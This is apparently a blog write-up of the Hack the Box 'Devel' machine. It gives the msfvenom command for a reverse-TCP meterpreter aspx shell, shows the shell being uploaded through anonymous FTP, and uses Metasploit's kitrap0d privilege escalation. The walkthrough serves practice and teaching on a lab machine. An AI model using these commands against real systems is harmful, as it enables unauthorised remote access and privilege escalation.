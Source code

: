 ```yaml
---
title: Devel
date: 2020-01-22
excerpt: "'Devel' is an easy rated box on Hack the Box. To solve this box we'll take advantage of anonymous FTP login, craft shellcode using msfvenom and use metasploit's local exploit suggestor to find the path to privesc"
classes: wide
categories: HackTheBox
tags:
  - htb
  - metasploit
  - msfvenom
  - ftp
---
```



![img](/assets/images/htb/devel/0.png)

### Port Scanning and General Enumeration (Nmap)
* Reading/Resources
  * [Nmap manual](https://nmap.org/book/man.html)

Initial scan shows ports 21 (FTP) and 80 (HTTP) open. 


![img](/assets/images/htb/devel/1.png)

The target scan shows us that **Anonymous FTP login** is allowed and it looks like the **webroot**.

Logging in to **FTP** with the creds **anonymous:anonymous** we can put a file and see if we can access it from the browser. I wrote a simple htm file that says `nice`.


![img](/assets/images/htb/devel/2.png)

---

### Access (FTP, metasploit, msfvenom)
* Reading/Resources
  * [FTP](https://linux.die.net/man/1/ftp)
  * [metasploit](https://github.com/security-cheatsheet/metasploit-cheat-sheet)
  * [msfvenom](https://redteamtutorials.com/2018/10/24/msfvenom-cheatsheet/)

Things we know:
- We can access a file that we place on the FTP server
- We're working with **Microsoft IIS** so we'll probably need an **asp** or **aspx** file

Let's craft some shellcode using **msfvenom**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f aspx > shell.aspx`

Set up a listener in **metasploit** and access our shell in the browser

`http://10.10.10.5/shell.aspx`

and...


![img](/assets/images/htb/devel/3.png)


---

### Privesc (metasploit, ms10-015)
* Reading/Resources
  * [metasploit](https://github.com/security-cheatsheet/metasploit-cheat-sheet)
  * [ms10-015](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-015)

Well, we're on the box but as a low priv account. Let's change that. Background the shell (**bg**) and:

`use post/multi/recon/local_exploit_suggester`


![img](/assets/images/htb/devel/4.png)

Looks like there's a few we can try. Let's try `kitrap0d`

`use exploit/windows/local/ms10_015_kitrap0d`

Make sure your settings are correct and fire it off.


![img](/assets/images/htb/devel/5.png)


![img](/assets/images/htb/devel/6.png)

That's a better account! Capture the flags


![img](/assets/images/htb/devel/7.png)


![img](/assets/images/htb/devel/8.png)
